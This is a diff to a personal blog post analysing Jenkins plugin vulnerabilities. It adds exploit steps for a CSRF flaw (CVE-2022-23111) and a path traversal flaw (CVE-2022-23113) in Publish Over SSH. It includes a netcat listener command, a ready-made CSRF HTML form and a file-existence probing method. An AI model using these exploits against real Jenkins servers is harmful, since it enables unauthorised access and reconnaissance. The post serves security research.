

Before and after one commit to Liodeus/liodeus.github.io, a Jekyll site: the page built from _posts/2022-03-20-Jenkins-Vulnerabilities-analysis-part-4.md, in a window 1280 px wide and 900 px high, scrolled down 730 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
add csrf and path traversal

````diff
--- a/_posts/2022-03-20-Jenkins-Vulnerabilities-analysis-part-4.md
+++ b/_posts/2022-03-20-Jenkins-Vulnerabilities-analysis-part-4.md
@@ -15,6 +15,7 @@ Search for vulnerable plugins :
 
 ## Missing permission
 
+* * *
 
 ## XSS
 ### Stored XSS vulnerability in Dashboard View Plugin
@@ -41,6 +42,33 @@ Search for vulnerable plugins :
 * * *
 
 ## CSRF
+### CSRF vulnerability in Publish Over SSH Plugin
+- CVE-2022-23111
+	- Publish Over SSH Plugin 1.22
+	- https://plugins.jenkins.io/publish-over-ssh/
+	- Requires Jenkins 2.263.1
+
+#### Exploit
+- sudo netcat -lvnp 22
+- host this html on a webpage (change the IP by yours)
+
+```html
+<html>
+  <body>
+  <script>history.pushState('', '', '/')</script>
+    <form action="http://localhost:8080/descriptorByName/jenkins.plugins.publish_over_ssh.BapSshHostConfiguration/testConnection">
+      <input type="hidden" name="name" value="test" />
+      <input type="hidden" name="hostname" value="192&#46;168&#46;1&#46;117" />
+      <input type="hidden" name="username" value="test" />
+      <input type="hidden" name="port" value="22" />
+      <input type="submit" value="Submit request" />
+    </form>
+  </body>
+</html>
+```
+- Go to the webpage, click on the button Submit request
+- If you already are connected to Jenkins, you should see a connection on your listener
+- If you are not connected, Jenkins ask you to connect, then the request get executed and you should see a connection on your listener
 
 * * *
 
@@ -87,6 +115,17 @@ Search for vulnerable plugins :
 * * *
 
 ## Path traversal
+### Path traversal vulnerability in Publish Over SSH Plugin
+- CVE-2022-23113
+	- Publish Over SSH Plugin 1.22
+	- https://plugins.jenkins.io/publish-over-ssh/
+	- Requires Jenkins 2.263.1
+
+#### Exploit
+- Manage Jenkins - Configure System - Go to "Publish over SSH"
+- In the "Path to key" box, enter a file to check for existance
+- If the file doesn't exist on the system : No such file : 'fileName'
+- If the file exist : No error
 
 * * *
 
````
